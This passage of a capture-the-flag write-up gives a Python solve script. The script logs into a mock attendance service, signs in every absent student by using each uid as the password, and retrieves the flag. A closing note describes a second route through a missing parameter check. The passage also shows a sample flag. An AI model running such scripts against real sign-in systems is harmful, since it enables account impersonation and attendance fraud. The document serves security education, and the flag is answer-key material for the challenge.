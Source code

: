 ```Python
        return None, None

def sign_in(session, sign_code: str, enc: str):
    url = f"{BASE_URL}/widget/sign/e"
    params = {
        "id": str(active_id),
        "c": sign_code,
        "enc": enc
    }
    response = session.get(url, params=params)
    return response.text

def end_active(session):
    url = f"{BASE_URL}/widget/active/endActive"
    response = session.get(url)
    response_data = response.json()
    if response_data.get("result") == 1:
        return response_data.get("errorMsg")
    else:
        print("Failed to end activity:", response_data.get("errorMsg"))
        return None

if __name__ == "__main__":
    teacher_phone = "10000"
    teacher_password = "10000"
    active_id = 4000000000000

    teacher_session = login(teacher_phone, teacher_password)
    if teacher_session:
        students = get_unsigned_student_accounts(teacher_session)
        sign_code, enc = get_sign_code(teacher_session)
        
        for student in students:
            student_session = login(str(student["uid"]), str(student["uid"]))
            if student_session and sign_code and enc:
                sign_in_response = sign_in(student_session, sign_code, enc)
                print(f"Student {student["uid"]} sign in response:", sign_in_response)
        
        flag = end_active(teacher_session)
        print("Flag:", flag)
```

示例 Flag（本题为动态 Flag）: 

```Plain
moectf{u_ar3_4_g00d_t34ch3r_l0v3d_by_3v3ry0n3}
```

### 非预期解

因为 `update_sign_status()` 函数没有做好参数校验，导致可以直接从教师账号把所有人的账号都改成 "非教师代签的已签" 状态。
